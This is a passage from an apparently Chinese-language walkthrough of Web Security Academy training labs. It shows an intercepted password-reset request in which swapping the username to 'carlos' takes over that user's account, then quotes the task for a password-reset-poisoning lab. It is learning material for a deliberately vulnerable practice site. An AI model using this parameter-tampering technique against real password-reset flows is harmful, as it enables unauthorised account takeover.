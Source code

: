 再拦截抓包

```http
POST /forgot-password?temp-forgot-password-token=LinEeyuxnnVuGy9Q20sNwinTdG9Ye5Z6 HTTP/2
Host: 0aa500280415b54e8aa478bb00a6004b.web-security-academy.net
Cookie: session=7BPEm75rttJ9nKmSmyeOlXncDMWR3NBQ
Content-Length: 119
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aa500280415b54e8aa478bb00a6004b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa500280415b54e8aa478bb00a6004b.web-security-academy.net/forgot-password?temp-forgot-password-token=LinEeyuxnnVuGy9Q20sNwinTdG9Ye5Z6
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

temp-forgot-password-token=LinEeyuxnnVuGy9Q20sNwinTdG9Ye5Z6&username=wiener&new-password-1=123456&new-password-2=123456
```

很明显，我们把 post 数据里的 username 字段换成 carlos 试试

于是 carlos 的密码成功被我们修改为 123456

## Lab13

### 前置

If the URL in the reset email is generated dynamically, this may also be vulnerable to password reset poisoning. In this case, an attacker can potentially steal another user's token and use it change their password.

### 题目

```
Lab: Password reset poisoning via middleware
PRACTITIONER

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.
```
